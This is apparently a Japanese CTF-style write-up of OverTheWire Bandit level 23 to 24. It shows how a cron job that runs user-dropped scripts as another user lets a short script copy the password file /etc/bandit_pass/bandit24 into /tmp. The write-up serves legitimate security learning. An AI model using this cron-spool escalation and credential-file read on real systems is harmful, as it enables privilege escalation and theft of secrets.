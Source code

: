 ```

Bandit Level 23 → Level 24
Level Goal

A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
Commands you may need to solve this level

chmod, cron, crontab, crontab(5) (use “man 5 crontab” to access this)
```

今回もcron問題。  

同様に`/etc/cron.d/`から今回の問題に使いそうなものを開く。  

```
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

`/usr/bin/cronjob_bandit24.sh`の動きは、  
`/var/spool/bandit24/foo`に移動 -> ファイルが「.」「..」じゃないことを確認 -> カレントディレクトリ配下のファイルの所有者が"bandit24"であると確認  
-> 最大60秒でシェルスクリプトを実行させる -> シェルスクリプトを実行後そのファイルを削除  


つまり、/var/spool/bandit24/foo配下に次の資格情報を見られるようなシェルスクリプトを配置する。  
bandit24権限のリバースシェルを取得、bandit23権限でも見られるようbandit24で資格情報を出力するなど方法がある。  

今回は2つ目の方法で行う。  

以下のスクリプトを設置する。  
```
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/tmp.XAL1xYe68n/pass
```

クリア  


